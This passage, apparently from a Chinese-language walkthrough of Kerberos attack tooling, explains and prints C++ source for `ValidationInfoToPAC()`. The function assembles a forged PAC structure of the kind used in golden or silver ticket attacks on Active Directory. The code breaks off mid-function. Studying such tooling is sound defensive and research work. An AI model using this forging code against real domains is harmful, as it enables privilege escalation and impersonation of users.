 ### Generate PAC Type

了解上述知识后，我们开始伪造 PAC 结构，该过程被写在了 `ValidationInfoToPAC()` 函数中，如下所示。

```c++
BOOL ValidationInfoToPAC(PKERB_VALIDATION_INFO pValidationInfo, LONG SignatureType, PPACTYPE* pacType, DWORD* pacTypeSize)
{
	BOOL status = FALSE;
	PVOID pLogonInfo = NULL, pClaims = NULL;
	PPAC_CLIENT_INFO pClientInfo = NULL;
	PAC_SIGNATURE_DATA signatureData = { SignatureType, {0} };
	DWORD n = 4, szLogonInfo = 0, szLogonInfoAligned = 0, szClientInfo = 0, szClientInfoAligned, szSignature = FIELD_OFFSET(PAC_SIGNATURE_DATA, Signature), szSignatureAligned, offsetData = sizeof(PACTYPE) + 3 * sizeof(PAC_INFO_BUFFER);
	PKERB_CHECKSUM pCheckSum;

    // Get the implementation system of the specified verification algorithm.
	if (NT_SUCCESS(CDLocateCheckSum(SignatureType, &pCheckSum)))    
	{
		szSignature += pCheckSum->CheckSumSize;    // szSignature = 4 + pCheckSum->CheckSumSize
        // Align szSignature to 8 or its multiple.
		szSignatureAligned = SIZE_ALIGN(szSignature, 8);

        // Encrypt KERB_VALIDATION_INFO type data.
		if (EncodeValidationInformation(&pValidationInfo, &pLogonInfo, &szLogonInfo))
            // Align szLogonInfo to 8 or its multiple.
			szLogonInfoAligned = SIZE_ALIGN(szLogonInfo, 8);
		
        // Enter the GeneratePacClientInfo function to generate a PAC_CLIENT_INFO 
    	// type buffer for PAC.
		if (GeneratePacClientInfo(&pValidationInfo->LogonTime, pValidationInfo->EffectiveName.Buffer, &pClientInfo, &szClientInfo))
			szClientInfoAligned = SIZE_ALIGN(szClientInfo, 8);

		if (pLogonInfo && pClientInfo)
		{
			*pacTypeSize = sizeof(PACTYPE) + 3 * sizeof(PAC_INFO_BUFFER) + szLogonInfoAligned + szClientInfoAligned + szSignatureAligned * 2;
			if (*pacType = (PPACTYPE)LocalAlloc(LPTR, *pacTypeSize))
			{
				(*pacType)->cBuffers = 4;
				(*pacType)->Version = 0;

				(*pacType)->Buffers[0].cbBufferSize = szLogonInfo;
				(*pacType)->Buffers[0].ulType = PACINFO_TYPE_LOGON_INFO;
				(*pacType)->Buffers[0].Offset = sizeof(PACTYPE) + 3 * sizeof(PAC_INFO_BUFFER);
				RtlCopyMemory((PBYTE)*pacType + (*pacType)->Buffers[0].Offset, pLogonInfo, szLogonInfo);

				(*pacType)->Buffers[1].cbBufferSize = szClientInfo;
				(*pacType)->Buffers[1].ulType = PACINFO_TYPE_CNAME_TINFO;
				(*pacType)->Buffers[1].Offset = (*pacType)->Buffers[0].Offset + szLogonInfoAligned;
				RtlCopyMemory((PBYTE)*pacType + (*pacType)->Buffers[1].Offset, pClientInfo, szClientInfo);

				(*pacType)->Buffers[2].cbBufferSize = szSignature;
				(*pacType)->Buffers[2].ulType = PACINFO_TYPE_CHECKSUM_SRV;
				(*pacType)->Buffers[2].Offset = (*pacType)->Buffers[1].Offset + szClientInfoAligned;
				RtlCopyMemory((PBYTE)*pacType + (*pacType)->Buffers[2].Offset, &signatureData, szSignature);

				(*pacType)->Buffers[3].cbBufferSize = szSignature;
```